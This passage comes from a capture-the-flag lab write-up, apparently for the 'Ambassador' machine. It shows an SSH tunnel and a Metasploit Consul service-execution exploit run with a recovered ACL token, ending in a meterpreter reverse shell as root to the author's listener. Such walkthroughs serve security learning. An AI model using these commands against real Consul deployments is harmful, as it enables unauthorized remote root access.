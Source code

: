 

I'll use my SSH session to create a tunnel listening on 8500 on my host
forwarding through the SSH session to 8500 on Ambassador
(`-L 8500:localhost:8500`). After configuring the exploit, it looks like
this:



    msf6 exploit(multi/misc/consul_service_exec) > options

    Module options (exploit/multi/misc/consul_service_exec):

       Name       Current Setting                       Required  Description
       ----       ---------------                       --------  -----------
       ACL_TOKEN  bb03b43b-1d81-d62b-24b5-39540ee469b5  no        Consul Agent ACL token
                  
       Proxies                                          no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS     127.0.0.1                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
       RPORT      8500                                  yes       The target port (TCP)
       SRVHOST    0.0.0.0                               yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
       SRVPORT    8080                                  yes       The local port to listen on.
       SSL        false                                 no        Negotiate SSL/TLS for outgoing connections
       SSLCert                                          no        Path to a custom SSL certificate (default is randomly generated)
       TARGETURI  /                                     yes       The base path
       URIPATH                                          no        The URI to use for this exploit (default is random)
       VHOST                                            no        HTTP server virtual host

    Payload options (linux/x86/meterpreter/reverse_tcp):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.14.6       yes       The listen address (an interface may be specified)
       LPORT  4444             yes       The listen port

    Exploit target:

       Id  Name
       --  ----
       0   Linux

    View the full module info with the info, or info -d command.



The important things to set are the `ACL_TOKEN` (recovered above), the
`RHOSTS` (set to localhost tunnel), and the payload. Running this gives
a shell as root:



    msf6 exploit(multi/misc/consul_service_exec) > run
                                  
    [*] Started reverse TCP handler on 10.10.14.6:4444 
    [*] Creating service 'SpSyWPB'
    [*] Service 'SpSyWPB' successfully created.
    [*] Waiting for service 'SpSyWPB' script to trigger
    [*] Sending stage (1017704 bytes) to 10.10.11.183
    [*] Meterpreter session 1 opened (10.10.14.6:4444 -> 10.10.11.183:46010) at 2023-01-26 18:02:45 +0000
    [*] Removing service 'SpSyWPB'
    [*] Command Stager progress - 100.00% done (763/763 bytes)
